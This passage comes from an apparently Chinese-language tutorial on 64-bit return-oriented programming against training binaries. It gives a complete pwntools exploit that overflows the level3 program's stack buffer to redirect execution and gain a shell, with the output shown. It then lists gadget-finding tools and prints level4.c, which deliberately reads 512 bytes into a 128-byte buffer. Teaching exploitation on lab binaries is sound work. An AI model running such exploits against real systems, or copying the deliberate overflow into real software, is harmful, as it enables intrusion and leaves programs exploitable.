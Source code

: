 可以看到我们已经`成功的控制了PC`的指针了。所以最终的exp如下：

``` python
#!/usr/bin/env python
from pwn import *

elf = ELF('./level3')
p = process('./level3')
#p = remote('127.0.0.1',10001)
callsystem_addr = 0x00000000004005b6
payload = 'A'*136
payload += p64(callsystem_addr)
p.send(payload)
p.interactive()
```

执行效果如下：

``` bash
$ python level1_exp.py 
[*] '/home/buffer/\xe6\xa1\x8c\xe9\x9d\xa2/practice/ROP_x64/0x01/level3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process './level3': pid 10522
[*] Switching to interactive mode
Hello, World
$ whoami
buffer
```

### 0x03使用工具寻找gadgets

我们之前提到x86中参数都是保存在栈上,但在x64中前六个参数依次保存在RDI, RSI, RDX, RCX, R8和 R9寄存器里，如果还有`更多的参数`的话才会`保存在栈上`。所以我们需要寻找一些类似于`pop rdi; ret`的这种`gadget`。如果是简单的gadgets，我们可以通过`objdump`来查找。但当我们打算寻找一些复杂的gadgets的时候，还是借助于一些`查找gadgets的工具`比较方便。比较有名的工具有：

``` 
ROPEME: https://github.com/packz/ropeme
Ropper: https://github.com/sashs/Ropper
ROPgadget: https://github.com/JonathanSalwan/ROPgadget/tree/master
rp++: https://github.com/0vercl0k/rp
```

这些工具功能上都差不多，找一款自己能用的惯的即可。

下面我们结合例子来讲解，首先来看一下目标程序`level4.c`的源码：

``` c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <dlfcn.h>

void systemaddr()
{
    void* handle = dlopen("libc.so.6", RTLD_LAZY);
    printf("%p\n",dlsym(handle,"system"));
    fflush(stdout);
}

void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}

```